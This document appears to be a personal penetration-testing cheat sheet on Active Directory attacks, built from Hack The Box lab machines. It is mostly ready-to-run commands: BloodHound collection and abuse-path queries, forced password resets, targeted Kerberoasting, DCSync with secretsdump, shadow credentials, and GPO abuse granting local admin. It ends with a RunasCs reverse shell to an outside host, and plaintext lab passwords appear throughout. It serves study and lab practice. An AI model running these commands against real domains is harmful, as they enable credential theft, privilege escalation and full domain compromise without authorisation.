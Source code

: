 ## Collect Data
#### From target:
```
.\SharpHound.exe
```
- better for CE
```
. .\SharpHound.ps1
```
- only use if exe's are blocked
```
Invoke-BloodHound -CollectionMethod All
```
If nothing created and no error, may need to specify output:
```
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Temp
```
- make sure to create `C:\Temp` if not exist (can use `mkdir` in powershell)
	- usually will give error if `C:\Temp` does not exist
Can also use `-Verbose` to t/s:
```
Invoke-BloodHound -CollectionMethod All -Verbose
```

#### run remotely if LDAP port is open:
```
bloodhound-ce-python -c All -dc FOREST.htb.local -gc FOREST.htb.local -ns 10.129.175.196 -d htb.local -u svc-alfresco -p 's3rvice'
```
or
```
bloodhound-ce-python -c ALL -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.10.11.174
```
or use nxc:
```
nxc ldap administrator.htb -u Olivia -p ichliebedich --bloodhound --collection All --dns-tcp --dns-server 10.10.11.42
```

---
#### CE
```
sudo docker-compose -f ~/Downloads/docker-compose.yml up -d
```
![[Pasted image 20250411153636.png]]
- go to http://localhost:8080/ui/login
- admin:(more complex version of kali pw)
To end the docker container:
```
sudo docker-compose -f ~/Downloads/docker-compose.yml down
```
- free up port 8080 for foxyproxy
To upload Files, go to Administration > File Ingest
- If zip fails to upload, try json files one at a time to isolate the issue
- delete all data from previous session in Database Management beforehand (or after your done)
![[Pasted image 20250419154307.png]]


---
#### Legacy
 - start neo4j
- `sudo neo4j console`
- neo4j:(kali pw)
- `bloodhound`
- run command from another terminal tab
- clear database
- upload Data


---
#### Queries
```
MATCH (u:User) WHERE u.dontreqpreauth = true AND u.enabled = true RETURN u
```
- Find ASREPRoastable users
```
MATCH (m:Computer) RETURN m
```
- see computers
```
MATCH (m:User) RETURN m
```
- see users
- marked any users with creds as "owned"
	- check owned users for OUTBOUND OBJECT CONTROL > First Degree Object Control
		- Looking for GenericAll, GenericWrite, ForceChangePassword
ex: olivia has GenericAll over Michael & Michael has ForceChangePassword over Benjamin = probably worth checking out)

```
MATCH (n:User {admincount:False}) MATCH (m) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:MemberOf|HasSession|AdminTo|AllExtendedRights|AddMember|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|CanRDP|ExecuteDCOM|AllowedToDelegate|ReadLAPSPassword|Contains|GpLink|AddAllowedToAct|AllowedToAct|SQLAdmin*1..]->(m)) RETURN p
```
- show privs all non-admin users have against all other nodes

```
MATCH (n:User {admincount:False}) MATCH (m:User) WHERE NOT m.name = n.name MATCH p=allShortestPaths((n)-[r:AllExtendedRights|ForceChangePassword|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner*1..]->(m)) RETURN p
```
- show ACL abuse non-admin users has against other users

```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AllExtendedRights|GenericAll|GenericWrite|Owns|WriteDacl|WriteOwner|AdminTo|CanRDP|ExecuteDCOM|ForceChangePassword*1..]->(m:Computer)) RETURN p
```
- show ACL abuse non-admin users have against computers

```
MATCH (n:User {admincount:False}) MATCH p=allShortestPaths((n)-[r:AddMember*1..]->(m:Group)) RETURN p
```
- show non-admin users that have rights to add members into groups

```
MATCH (u:User) WHERE ANY (x IN u.serviceprincipalnames WHERE toUpper(x) CONTAINS 'SQL')RETURN u
```
- find SPNs with specific keywords (swap `SQL` for anything)

---
#### If user (Olivia) has GenericAll permissions over another user (Michael)
```
net user Michael Password123
```
- Change benjamin's password if currently owned user has GenericAll over benjamin
	- then login as that user and spray all open services with new creds
- can also use bloodyAD command below (if no shell)

---
#### If user (Michael) has ForceChangePassword over another user (Benjamin)
```
bloodyAD -u "Michael" -p "Password123" -d "Administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```
- using succesfully authenticated creds of michael to reset Benjamin's password

OR with RPC
```
rpcclient -U 'rsmith' //10.10.146.118
```
- put in password, then:
```
setuserinfo2 ewalters 23 "d4nk!!!"
```

---
#### If user (Emily) has GenericWrite permissions over another user (Ethan)
- make sure IP is in `/etc/hosts` with all subdomains
```
sudo ntpdate administrator.htb
```
- syncs timezone for kerberos
- may need to run multiple times if below command fails:
```
targetedKerberoast -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "Administrator.htb" --dc-ip 10.10.11.42
```
- running this command with Emily will display the hash for Ethan
	- run john to crack the hash, then use pw below for secretsdump command

---
#### If user (Ethan) has DCsync over domain (dc.administrator.htb)
```
secretsdump.py "Administrator.htb/ethan:limpbizkit"@"dc.Administrator.htb"
```

---
#### If user (ryan) has writeOwner permissions over another user (ca_svc), run these commands in fast sequence:
```
bloodyAD --host '10.10.11.51' -d 'escapetwo.htb' -u 'ryan' -p 'WqSZAF6CysDQbGb3' set owner 'ca_svc' 'ryan'
```
```
dacledit.py  -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/"ryan":"WqSZAF6CysDQbGb3"
```
```
sudo ntpdate sequel.htb
```
```
certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```
- sets ryan as owner of ca_svc
- once owner, 2nd command gives ryan full control of ca_svc
- syncs time
- should return hash for ca_svc

---
#### If User has GenericWrite over specific GPO Policy:
![[Pasted image 20250404152856.png]]
- Graphed path from Owned user to Administrator shows GenericWrite over GPO policy, implies privesc
```powershell
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount enterprise-security --GPOName "SECURITY-POL-VN"
```
![[Pasted image 20250404153731.png]]
```
gpupdate /force
```
![[Pasted image 20250404153941.png]]
- once updates, adds our user to administrator group
```
psexec.py enterprise-security:sand_0873959498@10.10.30.183
```
![[Pasted image 20250404154050.png]]


#### If User is in Group Policy Creator Owners group:
![[Pasted image 20250423155826.png]]
- acquired creds to m.schoolbus who is in Group Policy Creator Owners group
![[Pasted image 20250423155910.png]]
```powershell
New-GPO -Name GPO-New | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB"-LinkEnabled Yes
```
```powershell
get-GPO -All
```
- confirmed GPO was created
![[Pasted image 20250423155951.png]]
```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName GPO-new --force
```
```powershell
gpupdate /force
```
![[Pasted image 20250423160102.png]]
- catch shell with `RunasCs.exe`
```powershell
.\RunasCs.exe 'M.schoolbus' '!suBcig@MehTed!R' powershell.exe -r 10.10.14.207:5555
```